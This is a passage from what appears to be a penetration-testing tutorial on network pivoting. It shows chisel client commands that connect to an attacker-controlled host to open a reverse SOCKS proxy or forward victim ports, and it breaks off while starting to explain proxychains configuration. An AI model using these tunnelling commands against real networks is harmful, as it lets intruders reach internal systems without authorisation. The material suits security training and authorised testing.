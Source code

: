 Solution 1(i suggest it)

Via socks5 bring us all ports:

```bash
./chisel client <kali_nat1>:33 R:socks
```

Solution 2

Bringing only one port which would be like this:

```bash
./chisel client <Attacker_IP>:2000 R:80:<Victim_IP>:80
```

Solution 3

```
./chisel client --fingerprint <finger_of_chisel_server> <Attacker_IP>:<Listening_Attacker_Port> R:8000:<Victim_IP>:80
```

* IP = The IP address of your Chisel server
* PORT = The port you set on your Chisel sever
* R:socks = enables the reverse SOCKS proxy

<figure><img src="../../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

The connection will have been opened on the local port of our machine through 1080.

{% hint style="info" %}
Rename terminal tabs is a best practies to facilitate understanding!
{% endhint %}

<div align="left">

<figure><img src="../../../.gitbook/assets/image (41).png" alt=""><figcaption><p>Rename tabs with a significant name</p></figcaption></figure>

</div>

### Setting Proxychains

First, check that you have [proxychains↗](https://github.com/haad/proxychains) installed. It comes preinstalled in Kali Linux or Parrot. With root privileges edit the file `/etc/proxychains4.conf`. At the bottom, you should add the following line:
